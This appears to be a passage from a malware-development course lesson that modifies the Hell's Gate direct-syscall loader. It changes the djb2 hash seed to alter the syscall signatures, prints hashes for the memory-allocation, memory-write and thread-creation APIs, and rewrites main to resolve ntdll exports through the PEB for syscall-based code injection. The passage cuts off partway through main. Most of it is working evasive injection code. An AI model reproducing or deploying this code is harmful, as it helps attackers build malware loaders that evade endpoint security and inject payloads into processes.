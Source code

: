 #### Updating Seed Value

A new seed value will be used to replace the [old one](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c#L93) to change the hash values of the syscalls. The djb2 hashing function is updated with the new seed value below.

```c
DWORD64 djb2(PBYTE str) {
	DWORD64 dwHash = 0x77347734DEADBEEF; // Old value: 0x7734773477347734
	INT c;

	while (c = *str++)
		dwHash = ((dwHash << 0x5) + dwHash) + c;

	return dwHash;
}
```

The following `printf` statements should be added to a new project to generate the djb2 hash values.

```c
printf("#define %s%s 0x%p \n", "NtAllocateVirtualMemory", "_djb2", (DWORD64)djb2("NtAllocateVirtualMemory"));
printf("#define %s%s 0x%p \n", "NtWriteVirtualMemory", "_djb2", djb2("NtWriteVirtualMemory"));
printf("#define %s%s 0x%p \n", "NtProtectVirtualMemory", "_djb2", djb2("NtProtectVirtualMemory"));
printf("#define %s%s 0x%p \n", "NtCreateThreadEx", "_djb2", djb2("NtCreateThreadEx"));
```

![image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/syscalls-classic-618293274-8d259f06-efa2-4254-886c-ce14500fb65d.png)

Once the values are generated, add them to the start of the Hell's Gate project.

```c
#define NtAllocateVirtualMemory_djb2  0x7B2D1D431C81F5F6
#define NtWriteVirtualMemory_djb2     0x54AEE238645CCA7C
#define NtProtectVirtualMemory_djb2   0xA0DCC2851566E832
#define NtCreateThreadEx_djb2         0x2786FB7E75145F1A
```

#### Updating The Main Function

The main function must be updated to call the `ClassicInjectionViaSyscalls` instead of the [payload function](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c#L80). The function will use the above-generated hashes as shown below.

```c
INT main() {
	// Getting the PEB structure
	PTEB pCurrentTeb = RtlGetThreadEnvironmentBlock();
	PPEB pCurrentPeb = pCurrentTeb->ProcessEnvironmentBlock;
	if (!pCurrentPeb || !pCurrentTeb || pCurrentPeb->OSMajorVersion != 0xA)
		return 0x1;

	// Getting the NTDLL module 
	PLDR_DATA_TABLE_ENTRY pLdrDataEntry = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pCurrentPeb->LoaderData->InMemoryOrderModuleList.Flink->Flink - 0x10);

	// Getting the EAT of Ntdll
	PIMAGE_EXPORT_DIRECTORY pImageExportDirectory = NULL;
	if (!GetImageExportDirectory(pLdrDataEntry->DllBase, &pImageExportDirectory) || pImageExportDirectory == NULL)
		return 0x01;

//--------------------------------------------------------------------------
	// Initializing the 'Table' structure
	VX_TABLE Table = { 0 };
	Table.NtAllocateVirtualMemory.dwHash = NtAllocateVirtualMemory_djb2;
```